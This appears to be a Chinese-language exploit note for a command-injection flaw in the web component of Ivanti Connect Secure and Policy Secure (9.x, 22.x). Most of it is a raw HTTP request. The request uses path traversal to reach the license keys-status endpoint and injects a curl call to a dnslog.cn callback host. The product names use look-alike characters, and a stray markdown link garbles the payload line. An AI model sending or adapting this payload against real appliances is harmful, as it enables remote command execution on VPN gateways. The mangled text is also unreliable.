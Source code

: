 **漏洞描述：**

Ivаｎti Cоnnесt Sесurе（9.х、22.х）和 Ivаnti Pоliсу Sесurе 的 Wеb 组件中存在一个命令注入漏洞，使得经过身份验证的管理员能够发送特别构建的请求并在设备上执行任意命令 。

**影响版本：**

9.x及22.x

**Payload：**

```yaml
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bcurl%[20z5i19y.dnslog.cn](http://20z5i19y.dnslog.cn/) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

---
